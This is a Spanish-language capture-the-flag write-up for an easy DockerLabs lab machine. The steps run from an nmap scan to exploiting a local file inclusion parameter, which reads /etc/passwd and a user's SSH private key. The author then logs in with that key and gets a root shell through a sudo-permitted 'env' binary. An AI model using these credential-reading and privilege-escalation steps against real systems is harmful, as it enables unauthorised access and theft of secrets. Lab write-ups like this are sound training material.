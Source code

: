 Maquina pntopntobarra de [DockerLabs](https://dockerlabs.es)

![dock](./imagenes/dock.png)

Autor: yo ([maciiii___](https://instagram.com/macim0_))

Dificultad: Fácil

# INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

## PUERTO 80:

![80](./imagenes/80.png)

Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.` pero en la barra de busqueda pone `http://172.17.0.2/ejemplos.php?images=./ejemplo1.png` por lo que cambiamos el "./ejemplo1.png" por `/etc/passwd`. Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "/home/nico/.ssh/id_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:

![root](./imagenes/root.png)

Gracias.....





[INSTAGRAM](https://instagram.com/macim0_)